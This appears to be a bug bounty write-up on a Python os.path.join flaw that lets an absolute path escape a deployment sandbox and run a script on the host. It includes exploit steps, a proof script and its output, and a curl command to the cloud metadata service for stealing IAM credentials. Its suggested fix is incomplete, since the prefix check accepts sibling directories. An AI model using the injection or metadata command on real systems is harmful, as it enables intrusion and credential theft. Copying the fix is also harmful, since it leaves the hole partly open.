


# :globe_with_meridians: Escaping the Sandbox: How a Simple Python Path Flaw Led to Host RCE

---

## 🏗️ The Target: An Enterprise Deployment Engine

The target application was a deployment automation tool designed to pull build artifacts and execute deployment scripts (hooks) on production servers.



To maintain security, the application implemented a “Sandbox.” The deployment agent was strictly programmed to execute scripts *only* within a specific designated build directory.

The core logic handling this looked something like this:

```
import os# The restricted directory (Sandbox)
build_dir = "/var/opt/app/deployments/build_123/"# User-provided script path from the dashboard
user_provided_path = "scripts/restart.sh"# Joining the paths to ensure execution stays within the build_dir
script_to_execute = os.path.join(build_dir, user_provided_path)print(f"Executing: {script_to_execute}")
# Output: Executing: /var/opt/app/deployments/build_123/scripts/restart.sh
```

At first glance, this looks secure. The developer assumed that no matter what the user inputs, it will always be appended to `build_dir`. But in Python, assumptions can be dangerous.

## 🐛 The Vulnerability: The `os.path.join` Trap

If you read the official Python documentation for `os.path.join()`, there is a crucial detail:

>

“If a component is an absolute path, all previous components are thrown away and joining continues from the absolute path component.”

This means if an attacker supplies an Absolute Path (a path starting with `/`), Python completely ignores the sandbox directory.

Let’s see what happens when we inject an absolute path:

```
user_provided_path = "/tmp/malicious_payload.sh"
script_to_execute = os.path.join(build_dir, user_provided_path)
print(f"Executing: {script_to_execute}")
# Output: Executing: /tmp/malicious_payload.sh
```

Boom! Sandbox Escaped. The `build_dir` was completely discarded.

## ⚔️ The Exploit: Weaponizing the Logic Flaw

To weaponize this, I needed two things:

## Get Hacker MD’s stories in your inbox

Join Medium for free to get updates from this writer.

Remember me for faster sign in

1.A payload on the server.

2.A way to trigger the path traversal.

Step 1: Dropping the Payload

Using a compromised or low-privileged deployment access, I simulated dropping a simple bash script on the host system at `/tmp/proof_rce.sh`.

```
#!/bin/bash
echo "--- SYSTEM COMPROMISE REPORT ---" > /tmp/proof.txt
id >> /tmp/proof.txt
hostname >> /tmp/proof.txt
```

Step 2: Hijacking the Build Hook

Through the web dashboard, I modified the deployment configuration. Instead of providing a relative path like `scripts/start.sh`, I injected my absolute path: `/tmp/proof_rce.sh`.

Step 3: Triggering Execution

When the deployment agent picked up the task, it ran the flawed `os.path.join()` logic. It bypassed the intended deployment directory and executed my payload directly on the Host OS.

Checking the output of `/tmp/proof.txt` confirmed the RCE:

```
--- SYSTEM COMPROMISE REPORT ---
uid=1000(deploy-service) gid=1000(deploy-service)
production-server-01
```

## The Impact: Why This is Critical

Even if the deployment agent runs as a non-root service user, the impact of this Vertical Privilege Escalation is devastating in a modern cloud environment:

1. Cloud Account Takeover (IMDS): From the host shell, an attacker can query the AWS/GCP Instance Metadata Service (e.g., `curl http://169.254.169.254/latest/meta-data/iam/security-credentials/`) to steal the IAM Instance Profile Credentials. This turns a single server compromise into a full Cloud Infrastructure takeover.

2.Lateral Movement: The compromised deployment agent serves as a perfect backdoor to inject malicious code into *future* builds, creating a massive supply chain attack across the network.

3.Secrets Exfiltration: Unrestricted read access allows the attacker to steal database passwords, API keys, and proprietary source code stored on the server.

## 🛡️ Remediation: How to Fix It

Developers should never rely solely on `os.path.join()` for security. To properly sandbox file paths, validate that the final resolved path still resides within the intended directory using `os.path.abspath()` and string prefixes:

```
import os
def is_safe_path(build_dir, user_provided_path):
# Get the absolute path of the target directory
base_dir = os.path.abspath(build_dir)

# Safely join and resolve the final path
final_path = os.path.abspath(os.path.join(base_dir, user_provided_path))

# Ensure the final path still starts with the base directory
return final_path.startswith(base_dir)
```

## 🎯 Conclusion

Security boundaries are only as strong as the underlying code that enforces them. This vulnerability is a stark reminder that understanding the deep intricacies of standard libraries (like Python’s `os` module) is just as important as knowing how to write the code itself.

Keep digging, keep reading the documentation, and never assume an input is safely confined!

*#CyberSecurity #BugBounty #Python #InfoSec #Vulnerability #RCE #EthicalHacking #CloudSecurity*




---
